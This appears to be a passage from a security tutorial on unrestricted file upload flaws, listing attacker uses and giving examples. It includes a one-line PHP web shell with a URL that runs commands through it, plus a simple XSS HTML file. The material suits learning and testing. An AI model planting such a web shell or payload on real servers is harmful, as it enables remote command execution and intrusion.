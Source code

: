 The website accepts the file but doesn’t execute it. However, the attacker can still:

* Upload an HTML page with a **JavaScript XSS payload**
* Upload a file that contains **malware** and share it with victims
* Use it in **phishing** (fake login pages)
* Store a malicious file and later use it for **LFI or Path Traversal**

---

## How Does it Work?

<p align="center">
  <img src="https://github.com/user-attachments/assets/6b97d1be-5a4d-424b-965a-7a976693d73b" alt="image" width="300"/>
</p>

1. **Attacker prepares a malicious file** (e.g., `shell.php`)
2. Uploads the file via the website's upload form
3. If there’s no proper filtering, the server will accept and save the file
4. Attacker accesses the file through the browser and starts exploiting it

---

## Exploitation Examples

### 1. Uploading a Shell for RCE

```php
<?php system($_GET['cmd']); ?>
```

Save it as `shell.php` and upload it.
Then access:

```
http://target.com/uploads/shell.php?cmd=id
```

You’ll get **output from the server**!

---

### 2. Uploading an XSS File

```html
<script>alert("XSS");</script>
```

Save it as `xss.html` and upload it.
If the server makes it available via direct URL, the attacker can send:

```
http://target.com/uploads/xss.html
```

---
